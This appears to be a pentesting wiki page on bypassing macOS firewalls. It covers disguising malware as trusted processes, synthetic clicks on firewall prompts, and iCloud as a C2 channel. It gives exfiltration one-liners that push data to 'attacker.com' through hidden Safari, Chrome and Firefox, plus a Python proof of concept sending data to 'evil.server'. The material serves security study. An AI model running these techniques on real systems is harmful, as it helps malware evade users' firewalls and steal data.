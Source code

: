 # macOS Bypassing Firewalls


## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

- For example calling the malware with names of well known macOS processes like **`launchd`**

### Synthetic Click

- If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

- Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```
```
### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

![[../../images/image (468).png|https://www.youtube.com/watch?v=UlT5KFTMn2k]]


### Via Browser apps

- **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
```
- Google Chrome

```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
```
- Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
```
- Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
```
### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

[[macos-proces-abuse/]]

---

## Recent macOS firewall bypass vulnerabilities (2023-2025)

### Web content filter (Screen Time) bypass – **CVE-2024-44206**
In July 2024 Apple patched a critical bug in Safari/WebKit that broke the system-wide “Web content filter” used by Screen Time parental controls.
A specially crafted URI (for example, with double URL-encoded “://”) is not recognised by the Screen Time ACL but is accepted by WebKit, so the request is sent out unfiltered. Any process that can open a URL (including sandboxed or unsigned code) can therefore reach domains that are explicitly blocked by the user or an MDM profile.

Practical test (un-patched system):

```bash
open "http://attacker%2Ecom%2F./"   # should be blocked by Screen Time
# if the patch is missing Safari will happily load the page
```
```
### Packet Filter (PF) rule-ordering bug in early macOS 14 “Sonoma”
During the macOS 14 beta cycle Apple introduced a regression in the userspace wrapper around **`pfctl`**.
Rules that were added with the `quick` keyword (used by many VPN kill-switches) were silently ignored, causing traffic leaks even when a VPN/firewall GUI reported *blocked*. The bug was confirmed by several VPN vendors and fixed in RC 2 (build 23A344).

Quick leak-check:

```bash
pfctl -sr | grep quick       # rules are present…
sudo tcpdump -n -i en0 not port 53   # …but packets still leave the interface
```
```
### Abusing Apple-signed helper services (legacy – pre-macOS 11.2)
Before macOS 11.2 the **`ContentFilterExclusionList`** allowed ~50 Apple binaries such as **`nsurlsessiond`** and the App Store to bypass all socket-filter firewalls implemented with the Network Extension framework (LuLu, Little Snitch, etc.).
Malware could simply spawn an excluded process—or inject code into it—and tunnel its own traffic over the already-allowed socket. Apple completely removed the exclusion list in macOS 11.2, but the technique is still relevant on systems that cannot be upgraded.

Example proof-of-concept (pre-11.2):

```python
import subprocess, socket
# Launch excluded App Store helper (path collapsed for clarity)
subprocess.Popen(['/System/Applications/App\\ Store.app/Contents/MacOS/App Store'])
# Connect through the inherited socket
s = socket.create_connection(("evil.server", 443))
s.send(b"exfil...")
```
```
---

## Tooling tips for modern macOS

1. Inspect current PF rules that GUI firewalls generate:
   ```bash
   sudo pfctl -a com.apple/250.ApplicationFirewall -sr
   ```
2. Enumerate binaries that already hold the *outgoing-network* entitlement (useful for piggy-backing):
   ```bash
   codesign -d --entitlements :- /path/to/bin 2>/dev/null \
       | plutil -extract com.apple.security.network.client xml1 -o - -
   ```
3. Programmatically register your own Network Extension content filter in Objective-C/Swift.  
   A minimal rootless PoC that forwards packets to a local socket is available in Patrick Wardle’s **LuLu** source code.

## References

- [[https://www.youtube.com/watch?v=UlT5KFTMn2k|https://www.youtube.com/watch?v=UlT5KFTMn2k]]
- <https://nosebeard.co/advisories/nbl-001.html>
- <https://thehackernews.com/2021/01/apple-removes-macos-feature-that.html>

